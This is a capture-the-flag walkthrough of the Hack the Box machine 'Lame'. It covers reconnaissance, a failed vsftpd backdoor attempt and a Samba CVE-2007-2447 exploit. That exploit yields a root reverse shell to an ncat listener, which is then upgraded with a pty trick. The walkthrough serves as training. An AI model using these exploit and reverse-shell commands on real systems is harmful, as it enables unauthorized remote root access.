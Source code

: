 Title: Lame - Hack the Box
Date: 2020-02-13
Modified: 2020-02-13
Category: ctf
Tags: ctf, hack the box, oscp prep
Slug: htb-lame
Authors: Riley
Summary: Guide to Lame on Hack the Box.

## Description

Lame is one of the easiest boxes overall, with a Samba SMB server exploit to instant root and a red herring.

Lame is assigned IP 10.10.10.3.

## Reconnaissance

We begin by initiating an Nmap scan.

#### Nmap
```bash
# nmap -sV -sC -oA nmap/Lame 10.10.10.3

Nmap scan report for 10.10.10.3
Host is up (0.085s latency).
Not shown: 996 filtered ports
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.14.8
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_ms-sql-info: ERROR: Script execution failed (use -d to debug)
|_smb-os-discovery: ERROR: Script execution failed (use -d to debug)
|_smb-security-mode: ERROR: Script execution failed (use -d to debug)
|_smb2-time: Protocol negotiation failed (SMB2)
```

## VSFTP, The Red Herring

The first item to jump out is the `vsftpd 2.3.4` server.  This version of the software has a well known backdoor, [EDB-ID 17941](https://www.exploit-db.com/exploits/17491).  I located a public PoC, published by In2econd on [GitHub](https://github.com/In2econd/vsftpd-2.3.4-exploit/blob/master/vsftpd_234_exploit.py).

The exploit triggers the backdoor, which waits on port 6200 for commands.

#### vsftpd_234_exploit.py
`python3 ./vsftpd_234_exploit.py 10.10.10.3 21 whoami`
![Exploit failed on connection to backdoor](images\ctf\htb\lame\vsftpd_exploit_failed.png)

As you can see, the exploit did execute, but we could not connect to the backdoor port.  Either the software was patched, or there is a firewall blocking connections to miscellaneous ports.  Nmap reports that the port is filtered, so my guess is the latter.

![Filtered port means filtered progress](images\ctf\htb\lame\vsftpd_verify_backdoor_state.png)

## Investigating Samba

Since vsftp isn't an option, the remaining attack paths are either SSH or the Samba server.  Cursory research indicates that this version of OpenSSH doesn't have any significant exploits, and Nmap unfortunately failed to identify the exact version of Samba currently running.  Other utilities such as enum4linux also fail to identify the service sersion.

Metasploit has a module for this, `auxiliary/scanner/smb/smb_version`, that appearently does have some success in identifying the service.  I can also locate the version in a packet dump when using various utilities such as smbmap.  The commands I used are listed below.

msfconsole:	`msfconsole -q -x 'use auxiliary/scanner/smb/smb_version; set RHOSTS 10.10.10.3; exploit; exit'`

tcpdump:	`tcpdump -nn -s0 -X -i tun0 host 10.10.10.3 && port 445`

![Finally a service version!](images\ctf\htb\lame\smb_identifying_version.png)

Unix Samba 3.0.20-Debian has a Remote Code Execution vulnerability assigned [CVE-2007-2447](https://nvd.nist.gov/vuln/detail/CVE-2007-2447) that allows arbitrary execution of commands in the username field.

Github user _amiriunix_ made a [great Python PoC](https://github.com/amriunix/CVE-2007-2447) for this vulnerability.  After downloading, one should only need to install the python2 module `pysmb` to make it functional.  This should be as simple as `sudo pip2 install pysmb`.

The instructions on the command is executed as such as thi:

```md
## Usage:

shell
$ python usermap_script.py <RHOST> <RPORT> <LHOST> <LPORT>

  * `RHOST` -- The target address
  * `RPORT` -- The target port (TCP : 139)
  * `LHOST` -- The listen address
  * `LPORT` -- The listen port
```

After executing, it should create a reverse shell back to our machine.  First, we create a listener using Ncat (or something similar):

```bash
# rlwrap ncat -nvlp 8080
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::8080
Ncat: Listening on 0.0.0.0:8080
```
  
The command then should look like this:

```bash
# python ./usermap_script.py 10.10.10.3 139 10.10.14.33 8080
[*] CVE-2007-2447 - Samba usermap script
[+] Connecting !
[+] Payload was sent - check netcat !
```

Back in our Ncat terminal:

```bash
Ncat: Connection from 10.10.10.3.
Ncat: Connection from 10.10.10.3:37042.
whoami && hostname
root
lame
```

Excellent!  A root level reverse shell.  From this point, we can upgrade to a terminal with Python (this trick and more are discussed [here](https://medium.com/bugbountywriteup/pimp-my-shell-5-ways-to-upgrade-a-netcat-shell-ecd551a180d2)) and locate the 2 flags.

```bash
which python
/usr/bin/python
python -c 'import pty; pty.spawn("/bin/bash")'
root@lame:/# ls /home
ls /home
ftp  makis  service  user
root@lame:/# ls -l /home/*/user.txt
ls -l /home/*/user.txt
-rw-r--r-- 1 makis makis 33 Mar 14  2017 /home/makis/user.txt
```

This concludes the Lame walkthrough.  Thanks for reading!
